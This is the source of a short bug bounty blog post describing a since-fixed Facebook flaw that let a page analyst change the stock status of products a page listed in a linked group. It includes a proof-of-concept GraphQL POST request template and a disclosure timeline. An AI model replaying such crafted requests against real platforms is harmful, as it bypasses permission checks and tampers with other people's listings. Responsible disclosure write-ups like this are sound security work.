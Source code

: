 ```yaml
---
layout: post
title: Facebook Change Product Availability as a PageAnalyst
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - onehackzero</p>

## Description

&nbsp;&nbsp;&nbsp;This bug could have let a malicious page analyst modify the availability of an item put up for sale by the page in a group linked to the page.

## Proof of Concept

{% highlight javascript %}
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID
query_params = {"3":"false","1":"image/jpeg","2":2,"0":{"surface":"GROUP_POST_CHEVRON","actor_id":"PageID","client_mutation_id":"","product_availability":"IN_STOCK","story_id":"<base64 encoded>"}}

{% endhighlight %}

## Timeline

- Jan 4, 2018 - Report Sent
- Jan 10, 2018 - Further investigation by Facebook
- Jan 23, 2019 - Fixed by Facebook
- Jan 25, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/JwZw6QJ_d18" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>